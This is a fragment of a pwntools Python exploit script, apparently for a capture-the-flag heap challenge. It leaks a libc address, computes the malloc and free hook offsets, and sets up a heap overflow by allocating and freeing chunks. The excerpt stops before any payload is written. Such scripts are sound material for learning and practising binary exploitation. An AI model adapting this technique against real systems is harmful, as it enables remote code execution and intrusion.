 ```python
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)
    
# Standard helper functions
def wait():
    time.sleep(0.15)
def flush():
    return io.recv(4096)

def create(s, l):
    io.sendline('1')
    io.sendline(str(l))
    io.sendline(s)
    wait()

def remove(n):
    io.sendline('2')
    io.sendline(str(n))
    wait()

# win_addr = exe.symbols['win']

io = start()

io.sendlineafter("So, you want to be a hero?", "yes")
wait()

io.recvline()
io.recvline() # receive "Really? Being a hero is hard."
io.recvline() # receive "Fine. I see I can't convince you otherwise."
leak = io.recvline().decode().split('this: ')[1][2:] # get the leaked libc system address
SYSTEM = int(leak, 16)
LIBC_BASE = SYSTEM - 0x2C550
log.info("Leaked Libc: {}".format(hex(LIBC_BASE)))

MALLOC_HOOK = LIBC_BASE + 0x72380
# at 0x1e3ef8 in file
FREE_HOOK = LIBC_BASE + 0x1C0B28

log.info("`malloc` chunk A, size 0x30")
create("AAAA", 40)
log.info("`malloc` chunk B, size 0x110")
create("BBBB", 264)

log.info("`free` chunk B")
remove(1)

log.info("`free` chunk A, so we can write to it and overflow it next")
remove(0)
```